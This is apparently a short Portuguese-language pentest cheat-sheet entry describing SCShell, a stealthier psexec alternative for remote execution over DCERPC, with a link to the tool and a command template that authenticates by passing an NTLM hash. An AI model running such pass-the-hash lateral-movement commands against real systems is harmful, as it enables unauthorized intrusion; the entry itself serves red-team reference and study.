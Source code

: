 # SCShell

% SCShell, psexec, sealthy, DCERPC

##  psexec de forma mais discreta
#plateform/linux #target/remoto #cat/ATTACK/CONNECT 

Nenhum serviço é criado, sem usar o smb e sem acrescentar nenhum arquivo

https://github.com/Mr-Un1k0d3r/SCShell

```
python3 scshell.py -service-name <service-name|defragsvc> -hashes :<ntlm-hash> <domain>/<user>@<ip>
```